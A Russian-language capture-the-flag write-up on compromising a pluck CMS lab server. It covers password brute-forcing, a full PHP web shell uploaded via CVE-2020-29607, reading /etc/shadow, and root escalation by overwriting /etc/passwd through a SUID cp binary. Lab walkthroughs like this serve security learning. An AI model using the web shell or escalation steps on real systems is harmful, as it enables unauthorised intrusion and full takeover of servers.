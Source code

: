 ### Writeup`s QUEST:
___

#### Подземелье:moyai:: 
<details><summary></summary>
Описание: 

>"Мой друг разработал сайт на одном непопулярном движке. Проверь, достаточно ли он защищен. Задание перезапускается в начале каждого часа."

Что у нас есть:
* 62.173.140.174:18000 - сервис pluck
* 62.173.140.174:18022 - ssh

Проанализируем 62.173.140.174:18000. Обычно при решении таких тасков, когда дан какой-то сервис по типу Wordpress или как в данном случае pluck, стоит узнать версию и погуглить уже известную CVE, что мы и сделаем.

CVE-2020–29607 - то что удалось отыскать. Разберем, в чем же заключается уязвимость. Из описания CVE следует - Загрузка файла, Удаленное выполнение кода (с проверкой подлинности). О чем это говорит, что пользователь с правами администратора pluck может загрузить файл с вредоносным кодом, что может привести к удаленному выполнению кода.

Еще погуглив, я нашел [гайд](https://loopspell.medium.com/cve-2020-29607-remote-code-execution-via-file-upload-restriction-bypass-f5cff38d94c6), как использовать эту уязвимость. Осталось только получить права администратора в pluck.
При переходе сюда http://62.173.140.174:18000/login.php нас встречает поле для ввода пароля.

Первая мысль которая у меня появилась - брутить пароль для входа, что я и сделал с помощью intruder в BurpSuite. Оказалось, что паролем являлось слово "liverpool".

Что же дальше?
Выполняем действия, как и в [гайде](https://loopspell.medium.com/cve-2020-29607-remote-code-execution-via-file-upload-restriction-bypass-f5cff38d94c6) и загружаем web-shell.

Файл vuln.phar выглядел у меня следующим образом
```
<!----!>-->
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
Good job! Мы получили web-shell, с поощью которого можно узнать пароль для ssh. Пользователь, как выяснилось john. Подключились по ssh, забрали первую часть флага.

Идем дальше.
После подключения по ssh, изучив немного директории, несложно понять, что флаг лежит в /root, куда у нас нет доступа.

Чтож, займемся повышением привилегий.
Читая и разбираясь нашел прикольную [статейку на habr`е](https://habr.com/ru/companies/jetinfosystems/articles/506750/).

```
find / -user root -perm -u=s -type f 2>/dev/null
```
Это выведет нам список процессов, которые мы можем запускать от root.

Среди них я нашел cp. Что говорит нам о том, что мы можем копировать passwd и shadow в директорию, из которой с помощью scp потом можем выкачать эти два файла. Имея passwd и shadow, я подумал, что стоит воспользоваться john the ripper. Как выяснилось, не стоит тратить на это время, забрутить хэш пароля у меня не получилось.

Изменим вектор атаки. Поменяем в файле passwd, который у нас есть, для пользователя john id пользователя и группы с 1000 на 0. 
Измененный файл через scp отправляем обратно в атакуемый хост. После чего с помощью cp подменяем файл passwd:

```
cp /home/john/passwd /etc/passwd
```

Таким образом получаем права root. Дальше залетаем в /root и забираем вторую часть флага.
GG
___